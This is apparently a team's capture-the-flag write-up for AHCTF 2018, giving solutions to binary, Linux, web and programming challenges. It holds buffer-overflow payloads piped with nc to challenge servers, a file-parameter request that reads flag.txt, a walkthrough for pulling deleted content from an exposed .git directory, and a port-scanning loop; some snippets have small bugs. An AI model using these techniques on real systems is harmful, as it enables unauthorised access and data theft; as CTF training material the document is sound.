 CTF : AHCTF 

LINK: https://www.ahctf.com

AUTHORS: Abraham Adberstein and Abraham Fong 

DATE: Feb 1-7, 2018

----------

**PWN1-EGYPT**
Since the gets function does not check the number of bytes it assigns to buffer, we can overflow the stack.
pwn1.zip 
**Stack**
| buffer 64 bytes |  ret 4 bytes |

    $ { python -c 'print "a"*64 + "\xef\xbe\xad\xde"'; cat; } | nc 54.186.65.159 10001

**PWN2-UZBEKISTAN**
I bet you can't redirect the code flow of this program.
pwn2.zip
**Solution**
If you take a look at the code of pwn2_client, you can use objdump to find the address of the function print_flag function. Since the gets function does not check the number of bytes it assigns to buffer, we can overflow the stack. Then what we want to do is override the return address of the main function. 
**Stack**
| buffer 64 bytes | argc  4 bytes | argv 8 bytes | ret 4 bytes |

    $ objdump -d pwn2_client
    $ { python -c 'print "a"*76 + "\x9d\x84\x04\x08"'; cat; } | nc 54.186.65.159 10002

**LINUX-FOREST-SPAIN**
Have you ever heard of the question: "Where does a wise man hide a leaf?"
**Solution**
There is a folder "data" in the current directory. Inside the "data" directory, there hundres of directories where those directories contains text files with base64 encoded strings. First we get folders with the following name patter "\*.txt" and pass the those folder paths to cat, then we use args again to get each line of those files and decode them. Lastly, we grep the flag. 

     $ find -name "*.txt" | xargs -I f cat f | xargs -I % echo "%" | base64 --decode | grep AHCTF

**LINUX3-CHINA**
I'm pretty sure someone is trying to talk to us on port 10001, but I don't think we can [hear] connect to him from the outside.
**Solution**
We just needed to listen to several ports and listen for incoming data from inside the server.
**Solution**

    import socket
    for port in range(23200,23300):
        try:
            s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
                s.connect((hostname,port))
                print s.recv(1024)
            s.close()
        except:
            continue

**WEB4-RUSSIA**
I'm trusting you with my system, please don't use this file to cheat...
Access the challenge at: http://34.216.168.66:8080/dir.php
The flag will be at http://34.216.168.66:8080/flag.txt
**Solution:**
Since the hint was hinting that dir.php was doing something, we passed a common name parameter to see if it did something. 

    http://34.216.168.66:8080/dir.php?file=flag.txt

**WEB6-MOZAMBIQUE**
This is my blog, but you won't find the flag there. I removed it before the last commit.

    http://52.26.43.30/blog

Hint suggests that we need to access past commit data to find a flag. 
Git repository content is written in objects. All of them are stored in .git/objects folder.  First tested to see if it was available by appending /.git after /blog. 
This returned a page with file structure instead of a 404 error, so far so good. 
    http://52.26.43.30/blog/.git 

Git objects can be one of three types: commit, tree and blob.

 - Commit is an information about commit, with current tree (folders and
   files structure) object hash.
 - Tree contains information about folders and files structure - and
   every single folder or file has its own object hash stored in tree
   object. It might be another tree (folder which is one level down
   in the folders structure) or file.
 - Blob is Git object type where files content are saved. In other
   way - if you know an object hash of the particular file, you can
   read content of this file using git cat-file command.

After finding the .git file, we navigate to logs/HEAD file to see history of commits. 
     http://52.26.43.30/blog/.git/logs/HEAD
Here we find two interesting commits with incriminating titles. 
The commit titled *'add flag*' has a hash of `c4db23b282baa2ce1b650dd820f7de00ee82b654` 
where the first 2 chars are the file, and the rest is the name. 
if we navigate to objects/c4/db23blablablabla, we will find ourselves with a file we can download! 

Since we are dealing with git commits, we need to create a dummy Git folder.
In the terminal: 

    $ git init

This will initialize empty Git repository with all required files and folders.
We have to save the downloaded file in your dummy Git folder we created. It is imperative to be sure that you saved it in exactly the same location:

path-to-dummy-git-repository/.git/objects/c4/db23b282baa2ce1b650dd820f7de00ee82b654


These two commands will be used to dig for our key: 
To check the type of object, you can use following command:
$ git cat-file -t c4db23b282baa2ce1b650dd820f7de00ee82b654

To display the content of the object, use this command:
$ git cat-file -p c4db23b282baa2ce1b650dd820f7de00ee82b654

We use these commands to check and read the type of the object. When we look at commit descriptions , we can find information about the actual tree object hash. Remember, the tree contains information about current folder structure. So using the same method (check type and then display content),  we check the tree object we find. 

Once we dig down the tree, eventually we find only one file, index.php and we know it's object hash and type, which is blob! (Remember, a blob  Git object type where files content are saved.)


Once more, git cat file, and you will reveal the contents, which is HTML code. Near the top of the header, we find the Key. :) 





----------


**PROG3-HASHES**
**Solution**
We connect to the server, get the string and strip the value desired to hash. Then, we hash and send it to the server. We loop through this process 100 times to get the flag. 

    import socket       
    import hashlib 
    from time import sleep
    import re
      
    host = "54.186.65.159"  
    port = 20005                
    s = socket.socket()  
    
    while True:
        r =  s.recv(1048)
        print r
        if ":" in r:
                string = r.split(':')[1].replace('\n', '').strip()
                hash = hashlib.sha512()
                hash.update(string)
                result = hash.hexdigest() + "\n"
                s.send(result)
        elif r == "":
                break


**PROG4-MATHBOT**
More hashes incoming. Your hands fast enough?
**Solution**
We connect to the server, use a bit of regex to get the number to sum and send it to the server. We loop through this process 100 times to get the flag.

    import socket       
    import hashlib 
    from time import sleep
    import re
      
    host = "54.186.65.159" 
    port = 20005               
    s = socket.socket()              
    s.connect((host, port))
    
    while True: 
            #receive connection
            r =  s.recv(1048) 
            print r
            if "+" in r: 
                    result = re.match( r'.*\s*What\sis\s(.*)\s\+\s(.*)', r, re.M|re.I)
                    suma = int(result.group(1)) + int(result.group(2))
                    msg = str(suma) + "\n"
                    s.send(msg)
            elif r == "":
                    break





<!--stackedit_data:
eyJoaXN0b3J5IjpbLTMyMzgzMDE0NywtMjEwNjA1ODE3MywtMz
IzODMwMTQ3LC0yMTA2MDU4MTczLC0zMjM4MzAxNDcsLTIxMDYw
NTgxNzMsLTg2NjEzMzYzOF19
-->
